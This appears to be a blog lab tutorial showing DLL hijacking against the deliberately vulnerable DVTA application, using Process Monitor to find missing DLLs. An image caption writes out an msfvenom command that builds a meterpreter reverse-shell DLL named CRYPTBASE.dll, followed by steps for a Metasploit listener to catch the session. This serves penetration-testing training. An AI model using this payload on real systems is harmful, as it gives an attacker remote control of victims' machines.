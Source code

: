 ![image](https://user-images.githubusercontent.com/93418272/191006285-d5f4f0fd-4594-49fa-88f8-786f39ad7d37.png)

# DLL Hijacking
<!-- wp:paragraph -->
<p>Tools needed:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Windows virtual machine</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Kali linux</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>DVTA application</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Process Monitor</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>MSFVENOM</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>By taking advantage of the way some Windows applications look for and load Dynamic Link Libraries, a technique known as "DLL hijacking" allows malicious code to be injected into an application (DLL).</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This tutorial will showcase a simple DLL hijacking via the DVTA application. The application can be downloaded <a href="https://github.com/srini0x00/dvta/releases/tag/2.0" data-type="URL" data-id="https://github.com/srini0x00/dvta/releases/tag/2.0" target="_blank" rel="noreferrer noopener">here</a>. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4735,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-330.png?w=892" alt="" class="wp-image-4735"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Download the application to your windows machine before running the application start up process monitor.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><em>Process Monitor is a sophisticated Windows monitoring program that displays process/thread activity, file system activity, and registry activity in real time.</em></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Lets' run the DVTA application.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4714,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-318.png?w=796" alt="" class="wp-image-4714"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4733,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-329.png?w=537" alt="" class="wp-image-4733"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Disable the following tabs in the toolbar to reduce the noise of the process monitoring:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Show Registry activity</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Show Network activity</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4712,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-317.png?w=1024" alt="" class="wp-image-4712"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Once the application is executed , click filter in Process monitor and add the following filters:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Process Name is DVTA.exe</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Result is NAME NOT FOUND</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>PATH begins with &lt; <em>where the DVTA/bin/release folder is located in the machine</em>></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4716,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-319.png?w=607" alt="" class="wp-image-4716"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4717,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-320.png?w=605" alt="" class="wp-image-4717"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4719,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-321.png?w=603" alt="" class="wp-image-4719"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>We can see couple of DLLs that were used but not found during the execution of the application.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4721,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-322.png?w=1024" alt="" class="wp-image-4721"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4731,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-328.png?w=859" alt="" class="wp-image-4731"/><figcaption class="wp-element-caption">Check permissions on the victim machine.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Let's craft a payload with the CRYPTBASE.dll</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Head to you attacking machine and use msfvenom to craft a payload </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4727,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-326.png?w=1024" alt="" class="wp-image-4727"/><figcaption class="wp-element-caption"><em>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.18.2 LPORT=4444 -f dll > CRYPTBASE.dll</em></figcaption></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Transfer the payload to the DVTA folder by a python webserver.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4724,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-324.png?w=798" alt="" class="wp-image-4724"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Let's set up a listener with msfconsole and use the multi handler exploit.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4729,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-327.png?w=1024" alt="" class="wp-image-4729"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Set the necessary options and run the exploit.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4723,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-323.png?w=440" alt="" class="wp-image-4723"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Head back to the victim machine and run the application again with the newly crafted payload inside the folder.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Check your attacking machine and a meterpreter session is gained.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4726,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-325.png?w=1024" alt="" class="wp-image-4726"/></figure>
<!-- /wp:image -->
